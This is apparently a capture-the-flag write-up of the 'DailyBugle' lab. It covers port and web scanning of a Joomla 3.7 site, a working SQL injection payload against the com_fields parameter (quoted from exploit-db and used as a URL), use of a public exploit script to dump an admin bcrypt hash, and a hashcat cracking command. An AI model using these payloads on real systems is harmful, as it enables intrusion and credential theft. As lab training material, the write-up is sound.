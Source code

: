 # DailyBugle

Compromise a Joomla CMS account via SQLi, practice cracking hashes and escalate your privileges by taking advantage of yum.

# Recon

```
❯ sudo rustscan -a 10.10.212.208 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.212.208
Host is up, received user-set (0.080s latency).
Scanned at 2021-10-08 15:54:20 EDT for 51s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-methods:
|_  Supported Methods: OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   syn-ack ttl 61 MariaDB (unauthorized)
```

Starting with the web page, standard scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.212.208 | tee whatweb.log
# Summary   : PHP[5.6.40], HttpOnly[eaa83fe8b963ab08ce9ab7d4a798de05], Script[application/json], Apache[2.4.6], X-Powered-By[PHP/5.6.40], Bootstrap, HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.6.40], PasswordField[password], JQuery, MetaGenerator[Joomla! - Open Source Content Management], Cookies[eaa83fe8b963ab08ce9ab7d4a798de05]

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.212.208
http://10.10.212.208/bin                  (Status: 200) [Size: 31]
http://10.10.212.208/cache                (Status: 200) [Size: 31]
http://10.10.212.208/cgi-bin/             (Status: 403) [Size: 210]
http://10.10.212.208/components           (Status: 200) [Size: 31]
http://10.10.212.208/configuration.php    (Status: 200) [Size: 0]
http://10.10.212.208/images               (Status: 200) [Size: 31]
http://10.10.212.208/includes             (Status: 200) [Size: 31]
http://10.10.212.208/layouts              (Status: 200) [Size: 31]
http://10.10.212.208/language             (Status: 200) [Size: 31]
http://10.10.212.208/LICENSE.txt          (Status: 200) [Size: 18092]
http://10.10.212.208/libraries            (Status: 200) [Size: 31]
http://10.10.212.208/media                (Status: 200) [Size: 31]
http://10.10.212.208/modules              (Status: 200) [Size: 31]
http://10.10.212.208/plugins              (Status: 200) [Size: 31]
http://10.10.212.208/README.txt           (Status: 200) [Size: 4494]
http://10.10.212.208/robots.txt           (Status: 200) [Size: 836]
http://10.10.212.208/templates            (Status: 200) [Size: 31]
http://10.10.212.208/tmp                  (Status: 200) [Size: 31]
http://10.10.212.208/web.config.txt       (Status: 200) [Size: 1690]
```

Browsing to main page:

![web-main](img/web-main.png)![]()

Checking out `README.txt` we see a partial version number for Joomla (3.7):

![](img/web-readme.png)

:exclamation: :exclamation:

NOTE: after looking at a writeup later, I found you can get the exact version of Joomla by visiting the following URL:

- http://host-ip/administrator/manifests/files/joomla.xml

![](img/joomla-version.png)

Poking around under the `/administrator` path would have yielded these results eventually.

At `/administrator` there is a Joomla admin panel login:

![](img/joomla-login.png)

And at the next level (`/administrator/manfiests`), there is an index-of page to browse the directory tree:

![](img/indexof-admin-manifest.png)

:exclamation: :exclamation:

Checking out searchsploit for `joomla 3.7`:

![](img/ss-joomla.png)

Looks like there might be SQL injection vulnerabilities?

Starting with first result:

- https://www.exploit-db.com/exploits/44227

It is a php script, which has this interesting part:

```php
$inject=$target.'/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=';

$payload='1,extractvalue(0x0a,concat(0x0a,(select/**/concat(0x7e7e7e,hex(table_name),0x7e7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))=1';
$final_url=$inject.$payload;
```

So maybe some injection in the `com_fields` option. This lines up with the title of the 2nd searchsploit result.

- https://www.exploit-db.com/exploits/42033

This one highlights the same vulnerable URL: `/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

It also gives 3 methods of exploiting

- boolean-based blind
- error-based
- time-based blind

Browsing to the following URL (from exploit 44227):

- `http://10.10.212.208/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1,extractvalue(0x0a,concat(0x0a,(select/**/concat(0x7e7e7e,hex(table_name),0x7e7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))=1`

![](img/web-sqli-test.png)

This yields the hex string "6662396A355F617373657473", which decodes to "fb9j5_assets".

Definitely vulnerable!

# Exploit

Googling for `joomla 3.7 exploit` turns up a python script that might help:

- https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

Testing it out.

![](img/exploit-script-run.png)

The script works like a charm. Got super user `jonah` with a password hash!

Looking at hashcat example hashes (https://hashcat.net/wiki/doku.php?id=example_hashes), it seems this fits the format of `bcrypt` (`$2*$`), mode 3200. Plugging into hashcat:

```sh
❯ hashcat -O -a0 -w3 --quiet -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /mnt/vm-share/rockyou.txt

```

